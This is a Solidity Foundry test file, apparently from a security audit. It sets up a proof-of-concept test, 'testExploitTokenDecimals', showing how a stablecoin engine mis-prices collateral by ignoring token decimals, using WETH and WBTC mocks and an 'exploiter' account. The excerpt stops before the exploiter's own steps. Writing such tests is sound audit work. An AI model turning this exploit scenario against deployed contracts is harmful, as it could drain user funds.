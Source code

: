 ```solidity
    address public ethUsdPriceFeed;
    address public btcUsdPriceFeed;
    address public weth;
    address public wbtc;
    uint256 public wethDecimals;
    uint256 public wbtcDecimals;
    uint256 public feedDecimals;
    uint256 public deployerKey;

    address public user = address(1);
    address public exploiter = address(2);

    uint256 public constant STARTING_USER_BALANCE = 10 ether;
    uint256 public constant MIN_HEALTH_FACTOR = 1e18;
    uint256 public constant LIQUIDATION_BONUS = 10;
    uint256 public constant LIQUIDATION_THRESHOLD = 50;
    uint256 public constant LIQUIDATION_PRECISION = 100;

    function setUp() external {
        DeployDSC deployer = new DeployDSC();
        (dsc, dsce, helperConfig) = deployer.run();
        (ethUsdPriceFeed, btcUsdPriceFeed, weth, wbtc, deployerKey) = helperConfig.activeNetworkConfig();
        if (block.chainid == 31337) {
            vm.deal(user, STARTING_USER_BALANCE);
        }
        ERC20DecimalsMock(weth).mint(user, STARTING_USER_BALANCE);
        ERC20DecimalsMock(wbtc).mint(user, STARTING_USER_BALANCE);
        ERC20DecimalsMock(weth).mint(exploiter, STARTING_USER_BALANCE);
        // The exploiter is not given any WBTC.

        wethDecimals = ERC20DecimalsMock(weth).decimals();
        wbtcDecimals = ERC20DecimalsMock(wbtc).decimals();
        feedDecimals = helperConfig.FEED_DECIMALS();
    }

    /**
     * @notice This test is based on a very real possible scenario involving WETH and WBTC.
     *
     * On Ethereum mainnet, WETH and WBTC have 18 and 8 decimals, respectively.
     * The current prices of WETH and WBTC are close to $2,000 and $30,000, respectively.
     * The `DSCEngine` allows a user to borrow up to the liquidation threshold.
     * The `DSCEngine` fails to account for token decimals when computing USD prices.
     */ 
    function testExploitTokenDecimals() public {
        // Set initial prices.
        MockV3Aggregator(ethUsdPriceFeed).updateAnswer(int256(2_000 * 10**feedDecimals)); // $2,000
        MockV3Aggregator(btcUsdPriceFeed).updateAnswer(int256(30_000 * 10**feedDecimals)); // $30,000

        // A user borrows the maximum possible amount of DSC using WETH as collateral.
        vm.startPrank(user);
        uint256 amountWethDeposited = 1 * 10**wethDecimals; // 1 WETH
        uint256 expectedValueWeth = 2_000 ether; // $2,000
        uint256 amountDscFromWeth = (expectedValueWeth * LIQUIDATION_THRESHOLD) / LIQUIDATION_PRECISION;
        ERC20DecimalsMock(weth).approve(address(dsce), amountWethDeposited);
        dsce.depositCollateralAndMintDsc(weth, amountWethDeposited, amountDscFromWeth);
        assertEq(dsc.balanceOf(user), amountDscFromWeth);
        vm.stopPrank();

        // The user's 1 WETH should be worth $2,000 as we expect.
        uint256 valueWeth = dsce.getUsdValue(weth, amountWethDeposited);
```